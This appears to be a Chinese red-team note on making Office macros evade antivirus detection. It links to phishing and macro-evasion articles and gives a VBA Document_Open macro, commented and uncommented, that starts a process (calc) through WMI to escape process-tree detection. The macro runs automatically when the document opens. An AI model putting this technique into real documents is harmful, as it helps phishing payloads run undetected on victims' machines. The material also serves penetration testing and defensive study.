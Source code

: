 
## 宏免杀

> [cobal strike 钓鱼----word宏木马（免杀） - 江楠O_O - 博客园 (cnblogs.com)](https://www.cnblogs.com/nanjiangyue/p/14009407.html)
>
> [wps和office宏钓鱼从认识到免杀 - FreeBuf网络安全行业门户](https://www.freebuf.com/articles/network/317116.html)
>
> [干货 | Office文档钓鱼之如何快速进行宏免杀 (qq.com)](https://mp.weixin.qq.com/s?__biz=MzI5MDU1NDk2MA==&mid=2247502110&idx=1&sn=2442cfc935de67607f986140e8c8ad4e&chksm=ec1c9c21db6b1537dc321bd939da8cc3bfe5917245867bf666ae0d9764c950cd510973bb067b&mpshare=1&scene=23&srcid=1208ExmPmeeluOtedlykpzwj&sharer_sharetime=1638967527162&sharer_shareid=d6f91fc924ad833bb5231d972b990ef9#rd)
>
> [干货 | Office文档钓鱼的实战和免杀技巧-腾讯云开发者社区-腾讯云 (tencent.com)](https://cloud.tencent.com/developer/article/1917641)
>
> ---
>
> [红队渗透测试技术：如何通过鱼叉式网络钓鱼获得攻击机会？ - 嘶吼 RoarTalk – 网络安全行业综合服务平台,4hou.com](https://www.4hou.com/posts/mMZE)

---

### 绕过基于进程树的检测

#### 连接到 WMI 新建进程

```vb
Private Sub Document_Open()
' 通过WMI连接到本地计算机的 CIMv2 命名空间，并设置模拟级别为“impersonate”，以允许脚本以调用者的权限运行WMI操作
Set objWMIService = GetObject("winmgmts:{impersonationLevel=impersonate}!\\.\root\cimv2")
' 获取 Win32_ProcessStartup 类的一个实例，该类包含进程启动配置的相关信息
Set objStartup = objWMIService.Get("Win32_ProcessStartup")
' 创建 Win32_ProcessStartup 类的一个新实例，这个实例将用于配置新进程的启动参数。
Set objConfig = objStartup.SpawnInstance_
' 获取 Win32_Process 类的实例，该类用于创建和管理进程
Set objProcess = GetObject("winmgmts:root\cimv2:Win32_Process")
' 创建一个新的进程，运行计算器程序（calc），将启动参数传递给新进程，并返回进程ID
errReturn = objProcess.Create("calc", Null, objConfig, intProcessID)
End Sub
```

```vb
Private Sub Document_Open()
Set objWMIService = GetObject("winmgmts:{impersonationLevel=impersonate}!\\.\root\cimv2")
Set objStartup = objWMIService.Get("Win32_ProcessStartup")
Set objConfig = objStartup.SpawnInstance_
Set objProcess = GetObject("winmgmts:root\cimv2:Win32_Process")
errReturn = objProcess.Create("calc", Null, objConfig, intProcessID)
End Sub
```

![image-20240712160058099](http://cdn.ayusummer233.top/DailyNotes/202407121600420.png)

